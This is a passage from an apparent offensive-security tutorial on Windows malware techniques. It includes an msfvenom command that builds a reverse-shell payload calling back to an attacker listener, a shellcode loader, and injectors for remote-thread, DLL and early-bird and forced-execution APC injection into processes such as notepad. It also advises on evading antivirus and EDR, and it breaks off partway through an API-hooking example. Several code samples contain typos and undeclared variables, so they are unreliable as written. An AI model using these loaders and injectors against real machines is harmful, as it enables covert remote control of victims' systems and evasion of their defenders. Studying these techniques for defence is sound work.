printf("decrypted payload: %s\n", payload);
// Now, we can execute our payload...
hack();
return;
}
An effective way to evade AV is to employ encryption. This may involve encryption a payload and decrypting it only when its about to be executed. More on this in Malware Detection Evasion Techniques.
Malware Injection Attacks
Code Injection is a simple technique where one process adds code to another process that is already working. It is a good technique to use to promote good OpSec.
For Example
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.15 LPORT=4444 -f c
; output
[-] No platform was selected...
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of C file: 1963 bytes
unsigned char buffer[] =
"\xfc\x48\x83\xe4..."
[...trunc...]
"...\xda\xff\xd5";
Here is a breakdown of this command:
msfvenom: A powerful payload generator that comes as a part of the Metasploit Framework.-p windows/x64/shell_reverse_tcp: Specifies the payload to use-p: Flat to indicate that a payload will be selectedwindows/x64/shell_reverse_tcp: A payload for a tcp reverse shell on a Windows x86-64 system.
LHOST=[HOST IP]: Sets the IP address of the Listening HostLPORT=[HOST IP]: Sets the Port Number of the Listening Host-f c: Specifies that the payload should be output as a C-style byte array.
The resulting output is the shellcode being used as our payload.
What is Shellcode?
Shellcode is basically CPU instructions which are executed by the processor directly in memory. Malicious actors copy shellcode into the memory space of a process and use a variety of techniques to highjack the Instruction Pointer register (RIP), resulting in that shellcode being executed. For our purposes here, the shellcode makes up the instructions which tell the CPU to create a reverse shell for an x64 system that connects out to an attacking system. More specific details can be found in Appendix B: Manually Writing Shellcode for Windows.
Here is the program used to run the payload, called a shellcode loader:
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
// reverse shell payload from msfvenom
unsigned char payload[] =
"\xfc\x48\x83\xe4..."
[...trunc...]
"...\xda\xff\xd5";
unsigned int payload_len = sizeof(payload);
int main(void){
void* payload_mem;
BOOL result;
HANDLE thread_handle;
DWORD oldprotect = 0;
payload_mem = VirtualAlloc(NULL, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
RtlMoveMemory(payload_mem, payload, payload_len);
result = VirtualProtect(payload_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
if (result != 0){
thead_handle = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)payload_mem, 0, 0, 0);
WaitForSingleObject(thread_handle, -1);
}
return 0;
}
Where:
-
stdlib.h: A standard C library header file that provides a collection of general-purpose utility functions, such as:malloc: Allocates a block of memory of a specified sizecalloc: Allocates memory for an array of elements and initializes all bytes to zero.free: Deallocates a memory block, releasing it back to the system.system: Executes a command passed as a string to the systems command interpreter.atoi: Converts a string to an integer.atol: Converts a string to a long integer.
-
windows.h: The master header file for the Windows API, providing a convenient way to access the full power of the Windows API without manually having to figure out and include every individual header function you need (i.e.,winsock2.h,winnt.h,winbase.h, etc.).windows.his where theUNICODEand_UNICODEpreprocessor macros are typically defined. If you defineUNICODEbefore includingwindows.h, all generic API names automatically resolve to theWvariants:
#define UNICODE #include <windows.h> [...trunc...] CreateFile(...); // Expands to CreateFileW(...)-
Otherwise, they expand to the
Aversions._UNICODEis used for theC Runtime Library(CRT), not the Windows API, but the purpose is the same.
-
The header file for
GetUserNamecontains the following logic:
#ifdef UNICODE #define GetUserName GetUserNameW #else #define GetUserName GetUserNameA #endif -
string.h: A standard C library header file that provides a set of functions for manipulatingNULLterminated strings and blocks of memory, including:strlen: Returns the length of a string, not including theNULLterminatorstrcpy: Copies a source string to a destination buffer.strcpyis a common source of buffer overflow vulnerabilities
strncpy: Copies at mostnbytes from a source to a destination buffer.memcpy: Copies a block of memory from a source to a destination.memset: Fills a block of memory with a specific byte.
Running this program directly on the target system is not very conspicuous, as an unrecognized process initiating an outward network connection immediately raises the suspicion of any capable cyber defense team. Instead, we can use remote code injection to execute the payload in another process on the target machine to avoid suspicion.
Remote Thread Injection
In a sense, the previous example is an instance of code injection. A new process is started, memory space is allocated, the shellcode is copied into the reserved buffer and a new thread is initialized to execute the shellcode.
Remote Code Injection is very similar, with the added caveat that the payload is executed within the address space of another process. One example of a remote code injection technique is Remote Thread Injection. Remote thread injection is a method where a new thread gets created within a target process to execute the payload. It can be broken down into three, simple steps:
- Memory is allocated within a target process, initializing a buffer at least as large as the payload.
- The payload is copied into the allocated buffer.
- A request is made to execute the payload within the target process.
The most common way of accomplishing this is to use builtin Windows API functions:
-
OpenProcess: A Windows API function that provides a handle to an existing process.HANDLE OpenProcess( DWORD dwDesiredAccess, BOOL bInheritHandle, DWORD dwProcessId );- Here is a breakdown of the
OpenProcessfunction's parameters:dwDesiredAccess: A set of flags that specify the access rights requested for the process handle. Examples include:PROCESS_VM_OPERATION: Allocate and change memoryPROCESS_VM_WRITE: Write data to memoryPROCESS_CREATE_THREAD: Create a new threadPROCESS_ALL_ACCESS: Obtain all possible rights
bInheritHandle: A boolean value that, ifTRUE, allows the handle to be inherited by any child processes created by the current process.dwProcessId: The Process Identifier (PID) of the process you want to open.
- Here is a breakdown of the
-
VirtualAllocEx: A Windows API function that reserves, commits, or changes the state of a region of pages in the virtual address space of a specified external process. It is critical for tools that perform code injection, because it allows them to allocate space in a target process's memory space.LPVOID VirtualAllocEx( HANDLE hProcess, LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect );- Here is a breakdown of the
VirtualAllocExfunction's parameters:hProcess: A handle to the process, where the memory will be allocated. The handle must have thePROCESS_VM_OPERATIONaccess right.lpAddress: The desired starting address for the region of pages to allocate. Typically set toNULL, allowing the OS to determine where to place the memory block.dwSize: The size, in bytes, of the memory region to be allocated.flAllocationType: A flag that specifies the type of memory allocation (i.e.,MEM_COMMITorMEM_RESERVE).flProtect: A flag that sets the memory protection for the region, determining what actions can be performed on the memory.VirtualAllocExreturns a pointer to the base address of the allocated memory region, if successful. On failure it returnsNULL.
- Here is a breakdown of the
-
WriteProcessMemory: A Windows API function, used to write data into an allocated region of memory within another process.BOOL WriteProcessMemory( HANDLE hProcess, LPVOID lpBaseAddress, LPCVOID lpBuffer, SIZE_T nSize, SIZE_T* lpNumberOfBytesWritten );- Here is a breakdown of the
WriteProcessMemoryfunction's parameters:hProcess: A handle to the target process, which must havePROCESS_VM_WRITEandPROCESS_VM_OPERATIONaccess rights to allow the calling process to modify the target process's memory.lpBaseAddress: The starting base address in the target process's virtual memory, where the data will be written. In this instance, it will be the address returned byVirtualAllocEx.lpBuffer: A pointer to the buffer that contains the data to be written. The address of the malicious shellcode within the injector's own memory.nSize: The number of bytes to be written from the source buffer into the target process's memory.lpNumberOfBytesWritten: An optional pointer to a variable that receives the number of bytes that were actually written into the target process. This can beNULL.WriteProcessMemoryreturnsTRUEif successful,FALSEupon failure.
- Here is a breakdown of the
-
CreateRemoteThread: A powerful Windows API function used to create a new thread of execution within the virtual address space of a specified external process. It is critical for remote thread injection, as it is the function responsible for executing the malicious code.HANDLE CreateRemoteThread( HANDLE hProcess, LPSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LP_THREAD_START_ROUTINE lpStartAddress, LPVOID lpParameter, DWORD dwCreatinFlags, LPDWORD lpThreadId );- Here is a breakdown of the
CreateRemoteThreadfunction's parameters:hProcess: A handle to the target process where the new thread will be created. This handle must have thePROCESS_VM_OPERATIONandPROECSS_CREATE_THREADaccess rights enabled.lpThreadAttribtutes: An optional pointer to aSECURITY_ATTRIBUTESstructure that specifies the security descriptor for the new thread. SEt toNULLfor default security.dwStackSize: The initial stack size for the new thread to commit in memory. If the value is0, the new thread's stack size will be the same as the creating process's primary thread.lpStartAddress: The most crucial parameter. A pointer to the starting address of the function that the new thread will execute. In remote thread injection, this will be the address of the malicious shellcode that was written into the target process's memory.lpParameter: An optional pointer to a single value that is passed as an argument to the thread's start function.dwCreationFlags: A flag that controls the creation of the thread.0: Thread is created and immediately executedCREATE_SUSPENDED(0x00000004): Thread is created, but immediately pauses execution until theResumeThreadfunction is called.STACK_SIZE_PARAM_IS_A_RESERVATION(0x00010000): Changes the meaning behind thedwStackSizeparameter, so that it specifies the total reserved size of the stack, rather than the committed size.
lpThreadId: An optional pointer to a DWORD variable that receives the unique identifier of the newly created thread.CreateRemoteThreadreturns a HANDLE to the newly created thread in the target process.
- Here is a breakdown of the
Here is an example of a simple, remote thread injection program:
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
unsigned char payload[] =
"\xfc\x48\x83\xe4..."
[...trunc...]
"...\xda\xff\xd5";
unsigned int payload_len = sizeof(payload);
int main(int argc, char* argv[]){
HANDLE process_handle;
HANDLE thread_handle;
PVOID remote_buffer;
// Opens the process with the PID given as the first command line argument
process_handle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)atoi(argv[1]));
remote_buffer = VirtualAllocEx(process_handle, NULL, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(process_handle, remote_buffer, payload, payload_length, NULL);
remote_thread = CreateRemoteThread(process_handle, NULL, 0, (LP_START_ROUTINE)remote_buffer, NULL, 0, NULL);
CloseHandle(process_handle);
}
Where:
CloseHandle: A crucial Windows API function used to decrement the reference cound of an open kernel object handle. It is essential for:Resource Management: Failing to callCloseHandlecan lead to handle leaks. The kernel will keep the object and its memory allocated, which can degrade the stability of the target system over time. This is badOpSec.Stealth/Cleanup: A common detection heuristic is to look for processes that hold numerous handles to other processes (especially high-privileged handles). Closing the handles immediately after they are used minimizes the window of time for security products to observe the suspicious state, aiding in cleanup and evasion.
Here are theBOOL CloseHandle( [in] HANDLE hObject );CloseHandlefunction's parameters:[in]: A Windows API function signature annotation, known as a Microsoft Source-Code Annotation Language (SAL) tag, that indicates a parameter's value is input (Read-only) to a function, and must be initialized before being passed to the function.hObject: The handle to an open object.CloseHandlereturnsTRUEis successful,FALSEupon failure.
Integrity Levels and the MIC
When injecting into a process, it is imperative to consider the Integrity Level the process holds. Mandatory Integrity Control (MIC) is a core security mechanism in Windows that controls how processes can interact with each other and with system objects. It serves as an additional layer of defense that can be broken into two parts:
- Integrity Level (IL): Every process and securable object (i.e., files, registry keys, mutexes, etc.) is assigned an Integrity Level.
- Access Rule (The Safeguard): No Write-Up. A process can only write to objects that have an equal or lower Integrity Level.
Low -> High: ALow_Integrityprocess cannot write to aMedium_Integrityprocess (i.e., sandboxed web browser ->! File Explorer).High -> Medium: AHigh_Integrityprocess can write to aMedium_Integrityprocess.
Each level describes the degree of trust and access a process has:
| Integrity Level (IL) | User/Process Type | Context and Security Implication |
|---|---|---|
| System | SYSTEM | The highest level, reserved for core OS services. Highly protected and highly capable |
| High | Administrator (Elevated) | Used when a user clicks Yes to a User Account Control (UAC) prompt. Full admin privileges |
| Medium | Standard User/Administrator (non-elevated) | Default level for most user applications, even when launched by an administrator without UAC elevation |
| Low | Restricted/sandboxed | Reserved for highly vulnerable processes. Protects the system from unwanted changes. |
DLL Injection
Traditional DLL Injection involves injecting a Dynamic Link Library into the address space of a process, giving the attacker control over the process's execution:
//evil_dll_1.c
#include <windows.h>
BOOL APIENTRY DllMain(HMODULE hModule, DWORD nReason, LPVOID lpReserved){
switch(nReason){
case DLL_PROCESS_ATTACH:
MessageBox(
NULL,
"You Have Been Hacked!",
">:-)",
MB_OK
);
break;
case DLL_THREAD_ATTACH:
break;
case DLL_PROCESS_DETACH:
break;
case DLL_THREAD_DETACH:
break;
}
return TRUE;
}
The code within DLLMain is executed immediately following DLL memory loading (after running LdrpRunInitializeRoutines), providing a simple means of executing code within the context of another process.
After the malicious DLL is crafted and downloaded on the target system, an injector is crafted that will copy this DLL into the memory space of a given process:
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
char dllPath[] = "C:\\Users\\Administrator\\Downloads\\evil.dll";
unsigned int dll_len = sizeof(dllPath) + 1;
int main(int argc, char* arvg[]){
HMODULE hThread;
HMODULE hProcess;
PVOID remote_buffer;
HMODULE hKernel32 = GetModuleHandle("kernel32.dll");
VOID *lpbuffer = GetProcAddress(hKernel32, "LoadLibraryA");
if(atoi(argv[1]) == 0){
return -1;
}
hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)atoi(argv[1]));
remote_buffer = VirtualAllocEx(hProcess, NULL, dll_len, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProcess, remote_buffer, dllPath, dll_len, NULL);
remote_thread = CreateRemoteThread(process_handle, NULL, 0, (LPTHREAD_START_ROUTINE)lpbuffer, remote_buffer, 0, NULL);
CloseHandle(hProcess);
return 0;
}
Where:
-
GetModuleHandle: A Windows API function used to retrieve a handle to a loaded module (typically a DLL or the executable itself) in the current process's virtual address space.HMODULE GetModuleHandleW( [in, optional] LPCWSTR lpModuleName );- Here is a breakdown of the
GetModuleHandleWfunction's parameters:lpModuleName: A pointer to the name of the loaded module (.dllor.exe) you want the handle for.- NOTE:
LPCWSTR= Long Pointer Constant Wide-Character String
- NOTE:
GetModuleHandleWreturns a handle, i.e., the starting address where the module is loaded in the current process's memory, to the specified module if successful. If it fails, it returnsNULL.
- Here is a breakdown of the
-
GetProcAddress: A fundamental Windows API function used to retrieve the memory address of an exported function (or variable) from a loaded DLL.FARPROC GetProcAddress( [in] HMODULE hModule, [in] LPCSTR lpProcName );- Here is the
GetProcAddressfunction's parameters:hModule: A handle to the DLL module that contains the function that you want to retrieve. Represents the base address where the process's memory holds the DLL.lpProcName: The name of the exported function as aNULL-terminated string or the function's ordinal value (the integer index within the DLL's export table, which ust be known beforehand).GetProcAddressreturns aFARPROCobject on success.NULLupon failure.FARPROC: a fundamental Windows API data type defined as a generic pointer to a function, meant to hold the memory address of any exported function from a DLL, regardless of the function's actual return type, parameters, or calling convention. It is defined in<windows.h>
- Here is the
Dynamic API Resolution
The API sequence previously used (i.e., GetModuleHandle -> GetProcAddress) is an example of Dynamic API resolution, a technique used by malware to obfuscate its functionality. In modern Windows, Dynamic API resolution can be mitigated with Control Flow Guard. Control Flow Guard is a security features in Microsoft Windows designed to mitigate memory corruption vulnerabilities by enforcing tight restrictions on indirect control-flow transfers. It works by verifying that the target address of any indirect function call (i.e., calls made through a function pointer) is a pre-determined, valid function entry point, thus making it significantly harder for an attacker to hijack a program's execution flow.
DLL Hijacking
Hijacking is the action of taking over (something) and using it for a different purpose. DLL Hijacking (i.e., DLL Preloading Attack) is a technique that exploits the way the Windows operating system searches for and loads a Dynamic Link Library (DLL) file required by a legitimate application. It leverages the DLL Search Order used by Windows when an application calls a function like LoadLibrary without specifying a fully qualified trusted file path (i.e., calling malicious.dll, rather than C:\Windows\System32\malicious.dll).
Load Library is the primary Windows API call used to map a specified module (usually a DLL) into the address space of the calling process. It has several variations, including LoadLibraryA, LoadLibraryW, LoadLibraryExA, and LoadLibraryExW, but the most basic and common form, LoadLibrary takes a single parameters:
HMODULE LoadLibrary(
[in] LPCSTR lpLibFileName
);
Where:
lpLibFileName: ANULL-terminated string that specifies the name of the module (DLL) to load. If a full path is specified (i.e.,C:\Windows\System32\kernel32.dll), the function attempts to load the DLL directly from that path. This is the secure way for applications to load DLLs. If only a module name is specified (i.e.,kernel32.dll), the function initiates the DLL Search Order process, which is the mechanism exploited by DLL Hijacking.
The DLL Search Order When a relative module path is given, a function will search for the appropriate DLL in the following order:
- DLLs already loaded in memory
- Known DLLs (registry key
HKLM\System\CurrentControlSet\Control\Session Manager\KnownDlls) - Application's directory
C:\Windows\System32C:\Windows\SystemC:\Windows- Current Directory
- Directories in the system
PATHenvironment variable - Directories in the user
PATHenvironment variable.
The LoadLibraryEx version is more advanced, and contains additional parameters:
HMODULE LoadLibraryEx(
[in] LPCSTR lpLibFileName,
[in] HANDLE hFile,
[in] DWORD dwFlags
);
Where:
lpLibFileName: Same asLoadLibraryhFile: A legacy parameter, formerly used to allow a process to load a DLL based on an existing file stream or handle, but in a modern context is set to aNULLvalue.dwFlags: Control flags that govern the loading process. These flags are critical for stealth and security.DONT_RESOLVE_DLL_REFERENCES(0x00000001): Loads the module but does not execute itsDllMainfunction or resolve its imported function.LOAD_WITH_ALTERED_SEARCH_PATH(0x00000008): Changes the search order to begin in the directory of the module being loaded.LOAD_IGNORE_CODE_AUTHZ_LEVEL(0x00000010): Bypasses some signature validation checks.LoadLibraryExreturns anHMODULEon success,NULLif it fails.
How it Works: Dll Hijacking Dll Hijacking is pretty basic in practice, being broken into 3 distinct steps:
- Identify the Vulnerable Application: The attacker identifies a legitimate application (often a signed system utility or a third-party tool) that attempts to load a DLL using an insecure method.
- Exploiting the Search Order: When the application starts, Windows begins searching a defined sequence of directories for the missing DLL, which often includes locations that a low-privileged user may have write access to, such as:
_ The directory from which the application was loaded
_ The current working directory * Directories listed in the user's
PATHenvironment variable The attacker places a malicious DLL file, renamed to the exact filename of the DLL the application is searching for, into one of these less-secure high priority locations. - Hijacking: When the legitimate application runs, the operating system finds the malicious DLL in the high-priority directory first and loads it, executing the attacker's code.
APC Injection
APC Injection is a stealthy technique used to force a thread in a target process to execute code supplied by the attacker by queuing an Asynchronous Procedure Call object to a target threads APC queue. QueueUserAPC is the primary Windows API function used to schedule an APC routine to run within the context of a specified thread.
DWORD QueueUserApc(
PAPCFUNC pfnAPC,
HANDLE hThread,
ULONG_PTR dwData
);
Here are the QueueUserAPC function's parameters:
pfnAPC: A pointer to the APC function (or shellcode) you want the target thread to execute.hThread: The handle of the target thread whose APC queue will receive the call, which must have theTHREAD_SET_CONTEXTaccess rights in order to add an item to the thread's APC queue.dwData: A single, optional, user-specified value that is passed as the only argument to the APC function (pfnAPC) when it executes.
There are many types of APC Injection attack, including:
-
Traditional APC Injection(Remote): An injection attack which avoids creating a new thread by appending the address of some malicious code to the APC queue of an existing, legitimate thread.- Steps:
- Allocate/Write: Allocate memory and write the shellcode into the remote process using
VirtualAllocExandWriteProcessMemory. - Queue: Queue the shellcode address to a thread in the remote process using
QueueUserAPC(or its native equivalentNtQueueApcThread)
- Allocate/Write: Allocate memory and write the shellcode into the remote process using
- The malicious code executes only when the target thread enters an alertable wait state by calling an API like
SleepEx,WaitForSingleObjectEx, orMsgWaitForMultipleObjectsEx.
- Steps:
-
Early-Bird APC Injection: An APC injection attack which executes code in a newly created process before its legitimate entry point code runs, effectively bypassing early-stage security hooks.- Steps:
- Create Suspended Thread: The injector creates the target process (i.e.,
notepad.exe) using theCREATE_SUSPENDEDflag, so the initial thread does not immediately execute. - Inject & Queue: The injector allocates memory, writes the shellcode, and queues the APC (using
QueueUserAPC) to the main, suspended thread. - Resume: The injector calls
ResumeThread. When the thread is resumed, the operating system's kernel dispatcher immediately checks for pending APCs before running the process's normal start function (LdrInitializeThunk), causing the malicious APC to run first.
- Create Suspended Thread: The injector creates the target process (i.e.,
- Steps:
-
Forced Execution APC(Local Injection): A method of APC injection which guarantees immediate execution of a queued APC within the current thread/process by making direct calls to the Native API, circumventing the need to rely on a high-level API entering a wait state.- Steps:
- Queue: The code queues the APC (using
QueueUserAPC) to one of its own threads (usingGetCurrentThread()). Force Execution: Then, it directly calls the internal Windows Native API function ,NtTestAlert, forcing the current thread to immediately check and process its APC queue.
- Queue: The code queues the APC (using
- This method bypasses detection logic that looks for the sequence of
QueueUserAPCfollowed by a high-level alertable wait function (SleepEx, etc.). However, the direct manual call to the un-exportedNtTestAlertfunction is often a string indicator of malicious activity for advanced EDRs.
- Steps:
-
Implicit APCs(via Callbacks): An APC injection method, which utilizes Asynchronous functions where a callback function is specified. When the I/O or timer operation completes, the Windows kernel queues a kernel-mode APC to the waiting thread, which executes a stub that eventually calls the user-provided function (the malicious payload).
Early-Bird APC Injection
An early-bird APC injection creates a suspended process and loads an APC using QueueUserAPC, so that once the thread has resumed execution, it runs the function loaded in the APC queue:
#include <windows.h>
#include <stdio.h>>
#include <stdlib.h>
unsigned payload[] =
"\xfc\x48\x83\xe4..."
[...trunc...]
"...\xda\xff\xd5";
int main(){
STARTUPINFO startupInfo;
PROCESS_INFORMATION processInfo;
LPVOID payloadMem;
SIZE_T payloadLen = sizeof(payload);
LPCWSTR cmd;
HANDLE processHandle, threadHandle;
NTSTATUS status;
ZeroMemory(&startupInfo, sizeof(startupInfo));
ZeroMemory(&processInfo, sizeof(processInfo));
startupInfo.cb = sizeof(startupInfo);
CreateProcessA(
"C:\\Windows\\System32\\notepad.exe",
NULL,
NULL,
NULL,
FALSE,
CREATE_SUSPENDED,
NULL, NULL, &startupInfo, &processInfo
);
WaitForSingleObject(processInfo.hProcess, 50000);
processHandle = processInfo.hProcess;
threadHandle = processInfo.hThread;
payloadMem = VirtualAllocEx(processHandle, NULL, payloadLen, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(processHandle, payloadMem, payload, payloadLen, NULL);
PTHREAD_TART_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)payloadMem;
QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, (ULONG_PTR)NULL);
ResumeThread(threadHandle);
return 0;
}
Where:
ZeroMemory: A macro defined in the Windows headers, used to clear buffers that may contain sensitive data.
Here is a breakdown of theVOID ZeroMemory( PVOID Destination, SIZE_T Length );ZeroMemoryfunction's parameters:Destination: A pointer to the starting address of the memory block that is to be filled with zeros. The memory block must be allocated and accessible to the calling process.Length: The number of bytes in the memory block, starting fromDestination, that should be set to zero.ZeroMemorydoes not return anything.
Forced Execution APC
Forced Execution APC occurs when a process accesses the memory space of a running process, adds a function to the APC queue, then uses a Native API call to force the execution of the queued function:
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
using NtTestAlertFunction = NTSTATUS(NTAPI*)();
unsigned char payload[] =
"\xfc\x48\x83..."
[...trunc...]
"...\xda\xff\xd5";
unsigned int payload_len = sizeof(payload);
int main(int argc, char* argv[]){
HMODULE ntdllModule = GetModuleHandleA("ntdll");
NtTestAlertFunction testAlert = (NtTestAlertFunction)GetProcAddress(ntdllModule, "NtTestAlert");
LPVOID payload_mem = VirtualAlloc(NULL, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
RtlMoveMemory(payload_mem, payload, payload_len);
PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)payload_mem;
QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
testAlert();
return 0;
}
Where:
using: The C++11 type alias syntax, which creates a new, readable type name. This allows the developer to use an alias for a given function call. It is equivalent to usingtypedef:using NtTestAlertFunction = NTSTATUS(NTAPI*)();->typedef NTSTATUS (NTAPI NtTestAlertFunction)();NTSTATUS: The return type of the function.NTSTATUSis the standard data type used by the Native API (ntdll.dll) to indicate success or failure.(NTAPI*): Specifies thatNtTestAlertFunctionwill be a pointer variable capable of holding the memory address of the actualNtTestAlertfunction. Used to declare the variable as a pointer to a function(*)that uses the NTAPI (__stdcall) calling convention.()Indicates the function's parameters. An empty set signifies no arguments passed.
API Hooking
API Hooking is a method used to manipulate and alter the functionality and sequence of API calls. It works by diverting a function call from its original, intended destination to a custom, user-supplied function (the "hook"). It can generally be reduced to 3 steps:
- Identification: The program identifies a target API function to intercept (ie.,
CreateFileA,LoadLibraryA,Send). - Redirection: The memory at the beginning of the target function is modified (patched) to contain an instruction (often a
JMPorCALL) that redirects execution from the attackers custom function. - Custom Execution: The custom function runs, inspects the parameters, modifies data, performs logging or executes its own payload. Then it typically does one of two things:
- Calls the original function: Executes the original, un-hooked code and returns the result.
- Blocks the call: Skips the original function entirely and returns a custom error or success code.
API Hooking can be employed by legitimate programs. Endpoint Detection and Response (EDR) systems and antivirus software monitor sensitive API calls (like disk access, network connections, or process creation) for signs of malicious behavior. Debuggers and profiling tools (like Wireshark & API Monitor) log every function call and its parameters for analysis and troubleshooting. You may also come across Compatibility Shims, which are a feature that allows older software to run on newer operating systems by intercepting an outdated function call and redirecting it to a newer, compatible function.
On the other hand, API hooking is used for many malicious purposes as well. Primarily, it is used as an anti-analysis technique. For instance, consider a malware sample that hooks functions like IsDebuggerPresent and OutputDebugString to return a false result. EDR and other automated sandbox systems analyze the behavior a program demonstrates when attempting to identify malware. If the sandboxed program crashes or loops, it is assumed the program in question is malicious. By forcing the API call to return false, these detection schemes can be fooled. Other methods are used to determine if the malware is actually being reverse-engineered (i.e., checking kernel data structures manually, obscuring how much time passes between actions, and looking for signs of virtual environments).
Let's consider the following example:
-
Given some DLL:
entertainment.c #include <windows.h> BOOL APIENTRY DllMain(HMODULE hModule, DWORD dwReasonForCall, LPVOID lpReserved){ switch(dwReasonForCall){ case DLL_PROCESS_ATTACH: break; case DLL_THREAD_ATTACH: break; case DLL_PROCESS_DETACH: break; case DLL_THREAD_DETACH: break; } } extern "C" { __declspec(dllexport) int _cdecl Movie(LPCSTR message){ MessageBox(NULL, message, "l>[-]", MB_OK); // camera return 1; } } extern "C" { __declspec(dllexport) int _cdecl Song(LPCSTR message){ MessageBox(NULL, message, "OO=[]:", MB_OK); // guitar return 1; } } extern "C" { __declspec(dllexport) int _cdecl Show(LPCSTR message){ MessageBox(NULL, message, "l>[-]", MB_OK); // camera return 1; } } extern "C"{ __declspec(dllexport) int _cdecl Game(LPCSTR message){ MessageBox(NULL, message, "<-,->,A,B", MB_OK); return 1; } }Where:
extern "C" {...}: A C++ linkage specification that tells the C++ compiler to compile the enclosed code using C-style linkage conventions instead of C++ name mangling. This is done because C++ compilers typically mangle function names to support features like function overloading and when a DLL exports a function, the calling application (which may be written inC,C#, or another language) needs to find the exact, unmangled function name.__declspec(dllexport): A Microsoft specific compiler extension that instructs the linker to export the function from the DLL to ensure that function's name and address are placed into the DLL's Export Address Table (EAT), making it visible and callable by other executable modules (exeor other DLLs).int _cdecl Music(LPCSTR message){...}: The function parameter.LPCSTR: A Windows data type that stands for Long Pointer to a Constant T-String- A T-String can resolve to either a 16-bit wide character string (LPCWSTR) or an 8-bit ANSI character string (LPCSTR), depending on the project's Unicode settings.
...(Function Body):MessageBox(...): Displays a modal dialog box to the user, which the user must interact with (click a button) before they can continue working in the application's owner window.
Here are theint MessageBox( [in, optional] HWND hWnd, [in, optional] LPCSTR lpText, [in, optional] LPCTSTR lpCaption, [in, optional] UINT uType );MessageBoxfunction's parameters:HWND hWnd: A handle to the window of the message box. If 'NULL, the message box has no owner and is typically modeless relative to the application's main thread, but will still block the current execution flow.LPCSTR lpText: The message to be displayed in the dialog box's content area (i.e., the main body of the window)LPCTSTR lpCaption: The title of the dialog box, displayed in the dialog box's title bar. IfNULL, the default title is usually "Error".UINT uType: A combination of flags that define the contents and behavior of the message box, including the buttons and the icon displayed.MB_OK: Displays a singleOKbutton.MB_YESNO: DisplaysYesandNobuttonsMB_OKCANCEL: DisplaysOKandCancelbuttonsMB_ABORTRETRYIGNORE: Displays 3 buttons,Abort,Retry, andIgnore. On modern systems, it's recommended to useMB_CANCELTRYCONTINUEinstead.MB_ICONERROR: Displays a critical stop sign (red x)MB_ICONQUESTION: Displays a question mark iconMB_ICONINFORMATION: Displays an information icon (Bluei)
MessageBoxreturns an integer value indicating which button the user clicked (i.e.,IDOK,IDYES,IDCANCEL, etc.)
-
Now, to verify that the DLL we created works, we can write a basic program, which includes it and calls the exported functions.
// test_hook.c
#include <windows.h>
typedef int (__cdecl *MovieFunction)(LPCSTR message);
typedef int (__cdecl *SongFunction)(LPCSTR message);
int main(void){
HINSTANCE entDll;
MovieFunction movieFunction;
SongFunction songFunction;
BOOL unloadResult;
if (entDll != NULL){
entDll = LoadLibrary("entertainmentDll.dll");
movieFunction = (MovieFunction)GetProcAddress(entDll, "Movie");
songFunction = (SongFunction)GetProcAddress(entDll, "Song");
if((movieFunction != NULL) && (songFunction != NULL)){
(movieFunction)("Spider-Man: Across the Spider-Verse");
(movieFunction)("It's a Disaster");
(songFunction)("August 10 by Khruangbin")
}
unloadResult = FreeLibrary(entDll);
}
return 0;
}
Where:
typedef int (__cdecl MovieFunction)(LPCSTR message);: Creates a new type, namedMovieFunction, such that any variable declared with this type will be a pointer to a function.(MovieFunction)GetProcAddress(entDll, "Movie");: This is an example of typecasting, a way to explicitly convert a value or variable from one data type to another.- The core idea here is that
GetProcAddressreturns the memory address of a function within theentDllmodule. Typecasting tells the compiler to treat the unspecific function address returned byGetProcAddressas a specific pointer to a function.
- The core idea here is that
(movieFunction)("Spider-Man: Across the Spider-Verse"): The parentheses around the function pointers name is called implicit dereferencing. This is optional and can often be used for clarity and to maintain consistency with the proper function pointer syntax:(* movieFunction)("Spider-Man: Across the Spider-Verse")
So, we have our DLL and we know it works. In order to do the actual hooking operation, There are three things that must be accomplished. You must create a piece of malware**, which:
- Loads the identified API into its own address space.
- Contains a function, to hook to which performs the malicious operation.
- Hooks the identified API, by patching a
JMPinstruction to our malicious function into the targeted API call.
Here is an example:
// hook.c
#include <windows.h>
#include <stdio.h>
char OrigBytes[14];
FARPROC hookedFuncAddr;
typedef int (__cdecl OrigMovFunc)(LPCTSTR message);
int __stdcall modMovFunc(LPCSTR message){
HINSTANCE entDll;
OrigMovFunc origMovFunc;
DWORD oldProtect;
VirtualProtect((LPVOID)hookedFuncAddr, 14, PAGE_READWRITE, &oldProtect);
WriteProcessMemory(GetCurrentProcess(), (LPVOID)hookedFuncAddr, origBytes, 14 NULL);
VirtualProtect((LPVOID)hookedFuncAddr, 14, oldProtect, &oldProtect);
FlushInstructionCache(GetCurrentProcess(), (LPVOID)hookedFuncAddr, 14);
entDll = LoadLibrary("entertainmentDll.dll");
origMovFunc = (OrigMovFunc)GetProcAddress(entDll, "Movie");
return (origMovFunc)("Everything, Everywhere, All At Once");
}
void installHook(){
HINSTANCE hLib;
DWORD oldProtect;
CHAR patch[14] = {0};
BYTE jmpInstruction[] = {0xFF, 0x25,0x00, 0x00, 0x00, 0x00 }
UINT_PTR hookFuncAddr;
hLib = LoadLibraryA("entertainmentDll.dll");
